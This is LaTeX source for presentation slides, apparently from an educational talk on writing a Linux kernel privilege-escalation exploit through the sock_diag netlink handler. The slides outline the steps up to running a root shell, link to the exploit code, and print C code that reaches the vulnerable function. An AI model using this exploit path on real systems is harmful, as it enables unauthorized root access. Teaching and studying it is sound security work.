 \documentclass[xcolor=dvipsnames]{beamer}
\newcommand{\heading}[1]{\textbf{\textcolor{BurntOrange}{#1}}}
\newcommand{\code}[2][]{\lstinline[columns=fullflexible, basicstyle=\ttfamily,
	#1]$#2$}
\begin{document}
\section{Writing the Exploit}
\frame{\sectionpage}

\begin{frame}
  \frametitle{Writing the Exploit}

  \heading{Three basic steps}
  \begin{enumerate}
    \item Reach \code{__sock_diag_rcv_msg}

    \item Hit the error in the function
    \begin{itemize}
      \item Abuse it!
    \end{itemize}

    \item Run a root shell
  \end{enumerate}

  \bigskip

  Code at: \url{http://github.com/jirislaby/exploit-talk}

\end{frame}

\begin{frame}[fragile]
  \frametitle{Reaching the Function}

\heading{Reaching \code{__sock_diag_rcv_msg} using \code{socket} and
\code{send}}
\begin{lstlisting}
int main() {
  struct {
    struct nlmsghdr nlh;
    struct unix_diag_req r;
  } req;
  int fd;

  memset(&req, 0, sizeof(req));
  req.nlh.nlmsg_len = sizeof(req);
  req.nlh.nlmsg_type = SOCK_DIAG_BY_FAMILY;
  req.nlh.nlmsg_flags = NLM_F_ROOT|NLM_F_MATCH|NLM_F_REQUEST;
  req.nlh.nlmsg_seq = 123456;

  if ((fd = socket(AF_NETLINK, SOCK_RAW, NETLINK_SOCK_DIAG)) < 0)
    return 1;

  if (send(fd, &req, sizeof(req), 0) < 0)
    return 1;

  return 0;
}
\end{lstlisting}
\end{frame}
\end{document}
